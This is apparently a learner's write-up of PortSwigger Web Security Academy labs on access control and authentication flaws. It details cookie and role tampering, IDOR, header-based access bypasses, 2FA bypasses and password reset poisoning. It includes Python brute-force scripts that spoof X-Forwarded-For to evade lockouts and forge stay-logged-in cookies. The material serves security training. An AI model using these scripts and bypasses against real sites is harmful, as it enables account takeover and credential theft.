







<!-- vscode-markdown-toc -->
* [Access control vulnerabilities](#Accesscontrolvulnerabilities)
	* [Lab 01: Unprotected admin functionality](#Lab01:Unprotectedadminfunctionality)
	* [Lab 02: Unprotected admin functionality with unpredictable URL](#Lab02:UnprotectedadminfunctionalitywithunpredictableURL)
	* [Lab 03: User role controlled by request parameter](#Lab03:Userrolecontrolledbyrequestparameter)
	* [Lab 04: User role can be modified in user profile](#Lab04:Userrolecanbemodifiedinuserprofile)
	* [Lab 05: User ID controlled by request parameter](#Lab05:UserIDcontrolledbyrequestparameter)
	* [Lab 06: User ID controlled by request parameter, with unpredictable user IDs](#Lab06:UserIDcontrolledbyrequestparameterwithunpredictableuserIDs)
	* [Lab 07: User ID controlled by request parameter with data leakage in redirect](#Lab07:UserIDcontrolledbyrequestparameterwithdataleakageinredirect)
	* [Lab 08: User ID controlled by request parameter with password disclosure](#Lab08:UserIDcontrolledbyrequestparameterwithpassworddisclosure)
	* [Lab 09: Insecure direct object references](#Lab09:Insecuredirectobjectreferences)
	* [Lab 10: URL-based access control can be circumvented](#Lab10:URL-basedaccesscontrolcanbecircumvented)
	* [Lab 11: Method-based access control can be circumvented](#Lab11:Method-basedaccesscontrolcanbecircumvented)
	* [Lab 12: Multi-step process with no access control on one step](#Lab12:Multi-stepprocesswithnoaccesscontrolononestep)
	* [Lab 13: Referer-based access control](#Lab13:Referer-basedaccesscontrol)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/all-labs#sql-injection)

## <a name='Accesscontrolvulnerabilities'></a>Access control vulnerabilities

### <a name='Lab01:Unprotectedadminfunctionality'></a>Lab 01: Unprotected admin functionality
[Link](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

robots.txt file:


administrator-panel site:


### <a name='Lab02:UnprotectedadminfunctionalitywithunpredictableURL'></a>Lab 02: Unprotected admin functionality with unpredictable URL
[Link](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

Tracing the website in Repeater:


The html file contains a script that check if user is admin or not.

The original script:
```
<script>
    var isAdmin = false;
    if (isAdmin) {
        var topLinksTag = document.getElementsByClassName("top-links")[0];
        var adminPanelTag = document.createElement('a');
        adminPanelTag.setAttribute('href', '/admin-8utq2b');
        adminPanelTag.innerText = 'Admin panel';
        topLinksTag.append(adminPanelTag);
        var pTag = document.createElement('p');
        pTag.innerText = '|';
        topLinksTag.appendChild(pTag);
    }
</script>
```

I change the isAdmin attribute to true:


The "Admin Panel" show up:


### <a name='Lab03:Userrolecontrolledbyrequestparameter'></a>Lab 03: User role controlled by request parameter
[Link](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

I login using the following credentials wiener:peter


In the cookie section, there is a "Admin" attribute that has false value.


I changed the value of the "Admin" attribute in the cookie section.

Refresh the page, now i have admin access.


### <a name='Lab04:Userrolecanbemodifiedinuserprofile'></a>Lab 04: User role can be modified in user profile
[Link](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

I login using the following credentials wiener:peter


There is a Post request when you change the email
Add "roleid" to the json body of the request.


The information of wiener user is updated with the "roleid" value is 2 now.

Refresh the page


### <a name='Lab05:UserIDcontrolledbyrequestparameter'></a>Lab 05: User ID controlled by request parameter
[Link](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter)

I login using the following credentials wiener:peter

/my-account?id=carlos


### <a name='Lab06:UserIDcontrolledbyrequestparameterwithunpredictableuserIDs'></a>Lab 06: User ID controlled by request parameter, with unpredictable user IDs
[Link](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids)

I login using the following credentials wiener:peter


We need to find the ID of user "carlos"
This blog post was created by "carlos"


So the ID of "carlos" is "4f983854-ad06-4c17-8126-db5452a85956"


Submit his API key


### <a name='Lab07:UserIDcontrolledbyrequestparameterwithdataleakageinredirect'></a>Lab 07: User ID controlled by request parameter with data leakage in redirect
[Link](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)


I login using the following credentials wiener:peter
Then i changed id in the URL as /my-account?id=carlos


There is a redirect after the request to /my-account?id=carlos, but the response still there

Submit his API key:


### <a name='Lab08:UserIDcontrolledbyrequestparameterwithpassworddisclosure'></a>Lab 08: User ID controlled by request parameter with password disclosure
[Link](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)

I login using the following credentials wiener:peter


In the response, the password field show the real password of the login user.

Change the id in the URL to administrator:


So the password of "administrator" is "dtpf871eld5ngan11tx1".


### <a name='Lab09:Insecuredirectobjectreferences'></a>Lab 09: Insecure direct object references
[Link](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)


This is the livechat site


When you view transcript, a transcript file will be downloaded.


The filename is increased, started from 2.
So i send a request to get the 1.txt transcript file :>


The password is "e1635ok1wtu09pcyeo80"

Login to carlos account


### <a name='Lab10:URL-basedaccesscontrolcanbecircumvented'></a>Lab 10: URL-based access control can be circumvented
[Link](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

X-Original-URL header can be used to control the behavior of the server.


I can send a similar POST request to the server and append the X-Original-URL header to it. The value of the X-Original-URL header is "/admin" - which means that the server will navigate to the /admin page.

Send the POST request to the server and then show the response in the browser


This works ~uwu~

I want to delete the "carlos" user. The website must navigate to "admin/delete?username=carlos". So i update the X-Original-URL field above to "admin/delete" and resend the request to "?username=carlos".


### <a name='Lab11:Method-basedaccesscontrolcanbecircumvented'></a>Lab 11: Method-based access control can be circumvented
[Link](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)

I tried to downgrade user "wiener" to admin


So i can send a request to "/admin-roles" with parameters "username" and "action" to upgrade/downgrade an user. The cookie is needed to be authorized.

Also the METHOD need to be changed to "GET".


### <a name='Lab12:Multi-stepprocesswithnoaccesscontrolononestep'></a>Lab 12: Multi-step process with no access control on one step
[Link](https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step)

I login as administrator and attempt to upgrade an user account


The POST request requires the following parameters "username", "comfirmed", "action"

I logout the administrator, then login as "wiener" user


Copy the cookie of the user login session to authorized.

Send a POST request to "/admin-roles" with the copied cookie


### <a name='Lab13:Referer-basedaccesscontrol'></a>Lab 13: Referer-based access control
[Link](https://portswigger.net/web-security/access-control/lab-referer-based-access-control)

I login as administrator and attempt to upgrade an user account


I logout the administrator, then login as "wiener" user

Send a POST request to "/admin-roles" to upgrade the "wiener" user account. i added the Referer header to the request.


## Authentication vulnerabilities
### Lab 01: Username enumeration via different responses
[Link](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)

This lab want me to brute force the credentials :> wtf...


### Lab 02: 2FA simple bypass
[Link](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)

/login -> /login2 -> /my-account


I login with "carlos" credentials


The MFA site show up. Now i change the URL to /my-account


### Lab 03: Password reset broken logic
[Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

I select the forgot password option at the end of the login box. The user i request is "wiener".


The POST request that update the password


So i can change the username and password in the POST request.


Request to change the password of user "carlos" was sent to the server.

Login with the new "carlos" credentials.


### Lab 04: Username enumeration via subtly different responses
[Link](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)

Just brute force.... boring ....


```
Username: ajax
Password: master
```


### Lab 05: Username enumeration via response timing
[Link](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

The lab implements a form of IP-based brute-force protection. I can bypass the brute-force protection by specifying the "X-Forwarded-For" header in the request parameter.

So i wrote a python script that brute force the credentials.

```
import requests
import random
import concurrent.futures


url = 'https://0a9700eb04a0100f80db49fd00b0002a.web-security-academy.net/login'

headers = {
    'Host': '0a9700eb04a0100f80db49fd00b0002a.web-security-academy.net',
    'Cookie': 'session=r8nIqZrC5TkYBWEWLjffIIXy42SbjmTx',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36',
    'Referer': 'https://0a9700eb04a0100f80db49fd00b0002a.web-security-academy.net/login',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'X-Forwarded-For': 'avfbv§w§'
}

username = []
password = []


def send_request(username, password):
    random_number = random.random()
    headers = {"X-Forwarded-For": str(random_number)}
    data = {
        'username': username,
        'password': password
    }
    
    response = requests.post(url, headers=headers, data=data)
    output_string = "{} {} {} {}\n".format(response.status_code, len(response.text), username, password)
    
    with open("output_2.txt", "a+") as file:
        file.write(output_string)


with concurrent.futures.ThreadPoolExecutor() as executor:
    for i in username:
        for j in password:
            executor.submit(send_request, i, j)
```

Let the script do the job and i get the result:


### Lab 06: Broken brute-force protection, IP block
[Link](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)


After 3 attempts to login, the website blocked my request for 1 minute.


So i can bypass the protection: Each 2 attemps failed, i send a success login request (wiener:peter).

I wrote a python script that retrieve the credentials

```
import requests
import random
import concurrent.futures


url = 'https://0ae5006004e9a8b7814f1bd6005b0017.web-security-academy.net/login'

headers = {
    'Host': '0ae5006004e9a8b7814f1bd6005b0017.web-security-academy.net',
    'Cookie': 'session=r8nIqZrC5TkYBWEWLjffIIXy42SbjmTx',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36',
    'Referer': 'https://0ae5006004e9a8b7814f1bd6005b0017.web-security-academy.net/login',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'X-Forwarded-For': 'avfbv§w§'
}

password = []

def send_request(username, password):
    random_number = random.random()
    headers = {"X-Forwarded-For": str(random_number)}
    data = {
        'username': username,
        'password': password
    }
    
    response = requests.post(url, headers=headers, data=data)
    output_string = "{} {} {} {}\n".format(response.status_code, len(response.text), username, password)
    
    with open("output_lab_6.txt", "a+") as file:
        file.write(output_string)


for i, j in enumerate(password):
    if i % 3 == 2:
        send_request("wiener", "peter")
    else:
        send_request("carlos", j)
```




### Lab 07: Username enumeration via account lock
[Link](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)



I brute force the credentials and notice that the user "archie" after several attempts, the response said that "You have made too many incorrect login attempts..."
-> Maybe this user "archie" should be a valid user.

```
import requests
import random
import concurrent.futures

url = 'https://0a3000ff049a85d38177a43d00cb001a.web-security-academy.net/login'

headers = {
    'Host': '0a3000ff049a85d38177a43d00cb001a.web-security-academy.net',
    'Cookie': 'session=r8nIqZrC5TkYBWEWLjffIIXy42SbjmTx',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36',
    'Referer': 'https://0a3000ff049a85d38177a43d00cb001a.web-security-academy.net/login',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'X-Forwarded-For': 'avfbv§w§'
}

password = []


def send_request(username, password):
    random_number = random.random()
    headers = {"X-Forwarded-For": str(random_number)}
    data = {
        'username': username,
        'password': password
    }
    
    response = requests.post(url, headers=headers, data=data)
    output_string = "{} {} {} {}\n".format(response.status_code, len(response.text), username, password)
    
    with open("output_lab_7.txt", "a+") as file:
        file.write(output_string)


with concurrent.futures.ThreadPoolExecutor() as executor:
    for j in password:
        executor.submit(send_request, "archie", j)
```

Done!


### Lab 08: 2FA broken logic
[Link](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)


The website requires the POST request for MFA authentication. This can lead to issue that i can bypass the login authentication by doing brute force the MFA code. 


I login with the credentials of user "wiener".  At the MFA site, i brute force the MFA code and modify "verify" header to "carlos".

Before send POST request to /login2, you need to send a GET request to /login2. This GET request used to ask teh server to send an MFA mail to user "carlos" mail box.


MFA: 0449


### Lab 09: Brute-forcing a stay-logged-in cookie
[Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)


This lab allows users to stay logged in even after they close their browser session. The cookie is the key i can use to brute force the credentials of user "carlos".


In the request header, there is a "stay-logged-in" cookie that indentify the session is saced for the next login attempt.


Cookie: ```d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw```

After decode base64: ```wiener:51dc30ddc473d43a6011e9ebba6ca770```

The ```51dc30ddc473d43a6011e9ebba6ca770``` is the hash of user "wiener" password.


```
import base64
import hashlib
import requests
import concurrent.futures

url = "https://0aea00c603b23a6680f1fe9e00180025.web-security-academy.net/login"

headers = {
    "Host": "0aea00c603b23a6680f1fe9e00180025.web-security-academy.net",
    "Cookie": "session=r8nIqZrC5TkYBWEWLjffIIXy42SbjmTx",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36",
    "Referer": "https://0aea00c603b23a6680f1fe9e00180025.web-security-academy.net/login",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
}

password = []

def calculate_md5(text):
    md5 = hashlib.md5()
    md5.update(text.encode("utf-8"))
    return md5.hexdigest()

def calculate_base64(text):
    base64_encoded = base64.b64encode(text.encode("utf-8"))
    return str(base64_encoded)

def send_request(username, password):
    # Create a session object
    session = requests.Session()

    # Define the cookie parameters
    cookie_name = bytes('stay-logged-in', encoding='utf-8')

    # Calculate the cookie value
    md5_passwd = calculate_md5(password)
    b64_stay_logged_in = calculate_base64("carlos:" + md5_passwd)

    # Set the cookie in the session
    session.cookies.set("stay-logged-in", b64_stay_logged_in)

    # Define the request payload
    data = {
        "username": username,
        "password": password,
        "stay-logged-in": "on",
    }

    # Make a request with the session
    response = session.post(url, headers=headers, data=data)

    # Process the response
    output_string = "{} {} {} {} {}\n".format(
        response.status_code, len(response.text), username, password, b64_stay_logged_in
    )

    with open("output_lab_9.txt", "a+") as file:
        file.write(output_string)

with concurrent.futures.ThreadPoolExecutor() as executor:
    for j in password:
        executor.submit(send_request, "carlos", j)
```


Done :v

### Lab 10: Offline password cracking
[Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

he lab contains an XSS vulnerability in the comment functionality.
Pick a random post, you can see the comment section below.


So i can insert a XSS injection into the comment section.

First, i tried the alert() script.

```
<script>alert(document.cookie);</script>
```


So the script was executed? Note that there is a exploit server of the lab that tell you access logs of the lab.

```
<script>
document.write('');
</script>
```



Access logs now full of request to the 'cookie' directory of the lab :> ofc, it not exists.

stay-logged-in: ```Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz```

b64 decode: ```carlos:26323c16d5f4dabff3bb136f2460a943```


-> "carlos" password: ```onceuponatime```


### Lab 11: Password reset poisoning via middleware
[Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

Let find out how the password reset functionality works!


The password reset asekd you to enter the user name or email.


There is an email sent to the user mailbox. This email contains the reset password link look like below:
```
https://[LAB URL]/forgot-password?temp-forgot-password-token=[TOKEN]
```


A POST request was sent to the server for updating your password. The request contains the token we mentioned above and new password. So we need to know the token to send a update password request.

How can i get the token from the server? The server just sends the token to the lab url only?


When requesting a password reset request, i add the "X-Forwarded-Host" header to the request. The value is my server's host. It means that the server will send the token to my server's host, and i get the token to create a custom password update request for another user (i.e. 'carlos' user) :>


Yes, i got the token :>


I sent a request to update 'carlos' password. Now 'carlos' password is 'peter'


### Lab 12: Password brute-force via password change
[Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)

This lab's password change functionality makes it vulnerable to brute-force attacks.

The POST request to change the user's password:


What if the current password is incorrect? 


-> The response code is 302 :> We back to the login page :>

So i can brute force the password by sending the change password request


I add "X-Forwarded-For" header to bypass ip brute force detection.

If the password is correct, the response will contain "New passwords do not match" :>


-> So the password is "abc123"


### Lab 13: Broken brute-force protection, multiple credentials per request
[Link](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)

```
function jsonSubmit(loginPath) {
    const formToJSON = elements => [].reduce.call(elements, (data, element) => {
        if (element.name && element.name.length > 0) {
            data[element.name] = element.value;
        }
        return data;
    }, {});

    const jsonObject = formToJSON(document.getElementsByClassName("login-form")[0].elements)
    const formData = JSON.stringify(jsonObject);
    fetch(
        loginPath,
        {
            method: "POST",
            body: formData,
            headers: {
                "Content-Type": "application/json"
            },
        }
    )
        .then(response => {
            response.text().then(t => {
                document.open();
                document.write(t);
                document.close();
            });

            if (response.redirected) {
                history.pushState({}, "", response.url)
            }
        });
}
```

The login-form was sent to the server as an JSON data object.
The lab has brute force detection.

What happens if I set a set of passwords?


Still works? :> 



Wow :> So i can login to 'carlos' user by send a request that contains all possible passwords.


### Lab 14: 2FA bypass using a brute-force attack
[Link](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)


When login with the credentials "carlos:montoya", you will have a csrf token, then a POST request that contains the csrf token + mfa code was sent to the server.
-> We need to find the csrf token after each GET request.

To do this, we can use BurpSuite Macros Recorder, ZAP ....
I tried to use BurpSuite but nohope :>

So i used ZAP to automatically find csrf tokens and send the requests

My ZAP script configuration:


Grab a cup of coffee and wait for the magic ....


And ????


-> MFA Code is 0233

Take the cookie session of the last response to login as user 'carlos'




And i login as user 'carlos' successfully 


